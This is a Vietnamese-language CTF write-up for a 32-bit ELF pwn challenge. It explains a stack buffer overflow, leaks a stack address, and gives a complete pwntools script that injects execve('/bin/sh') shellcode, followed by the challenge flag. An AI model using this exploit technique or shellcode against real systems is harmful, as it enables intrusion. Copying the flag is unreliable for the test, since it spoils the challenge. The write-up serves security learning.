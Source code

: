 **1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra:

![file.png](photo/file.png)

Ta thấy là file ELF 32bit. Ta có source như sau:

```
=> 0x08048060 <+0>:     push   esp
   0x08048061 <+1>:     push   0x804809d
   0x08048066 <+6>:     xor    eax,eax
   0x08048068 <+8>:     xor    ebx,ebx
   0x0804806a <+10>:    xor    ecx,ecx
   0x0804806c <+12>:    xor    edx,edx
   0x0804806e <+14>:    push   0x3a465443
   0x08048073 <+19>:    push   0x20656874
   0x08048078 <+24>:    push   0x20747261
   0x0804807d <+29>:    push   0x74732073
   0x08048082 <+34>:    push   0x2774654c
   0x08048087 <+39>:    mov    ecx,esp
   0x08048089 <+41>:    mov    dl,0x14
   0x0804808b <+43>:    mov    bl,0x1
   0x0804808d <+45>:    mov    al,0x4
   0x0804808f <+47>:    int    0x80
   0x08048091 <+49>:    xor    ebx,ebx
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3
   0x08048097 <+55>:    int    0x80
   0x08048099 <+57>:    add    esp,0x14
   0x0804809c <+60>:    ret
```

Ta thấy chương trình được viết bằng mã assembly

Đầu tiên chương trình in ra chuỗi: "Let's start the CTF:". Sau đó chương trình sử dụng sys_read cho phép nhập vào 0x3c ký tự. Sau đó cộng 0x14 vào esp và kết thúc chương trình

Dùng lệnh 'checksec' để kiểm tra ta có như sau: 

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

Ta thấy các chức năng bảo vệ đang tắt nên có thể khai thác qua lỗi bof hay thực thi shellcode, ...

**2. Ý tưởng**

Vì có cộng 0x14 byte nên sẽ nhập thử 0x14 byte rác ký tự 'a' và nhập đại thì stack có dạng như sau:

![stack.png](photo/stack.png)

Vậy sau khi cộng 0x14 cho esp thì sẽ pop địa chỉ chuỗi phía sau. Vậy nên có ý tưởng như sau

- Gửi payload gồm 14 byte và địa chỉ sys_write để in địa chỉ stack
- Gửi payload lần 2 gồm 14 byte rác và địa chỉ stack + 20 để lưu shellcode và shellcode để thực thi

**3. Khai thác**

Ta có địa chỉ để sys_write: '0x08048087'. Tạo payload và gửi để xem đã leak được địa chỉ stack hay chưa

```
sys_write = 0x08048087
payload = b'a'*0x14 + p32(sys_write)
r.sendlineafter(b"Let's start the CTF:", payload)
```

Ta được kết quả như sau:

![leak.png](photo/leak.png)

Vậy địa chỉ stack đã được leak ra. Tiếp theo chỉ cần lưu lại địa chỉ stack đó

```leak_stack = u32(r.recv()[:4])```

Tiếp theo đi tạo shellcode để ghi vào. Tìm kiếm được chuỗi shellcode như sau

```
shellcode =b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Việc còn lại chỉ tạo payload thứ 2 và thực thi

```payload = b'a'*0x14 + p32(leak_stack + 0x14) + shellcode
r.send(payload)
```

Ta check return sau khi gửi payload thứ 2 thì thấy như sau:

![shell.png](photo/shell.png)

Vậy chương trình đã return vào shellcode mình đã chèn vào

Ta có script như sau:

```
from pwn import *

r = process('./start')

sys_write = 0x08048087
#input()
payload = b'a'*0x14 + p32(sys_write)
r.sendafter(b"Let's start the CTF:", payload)

leak_stack = u32(r.recv(1024)[0:4])
print("Stack: ", hex(leak_stack))
shellcode =b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
payload = b'a'*0x14 + p32(leak_stack + 0x14) + shellcode
r.send(payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}`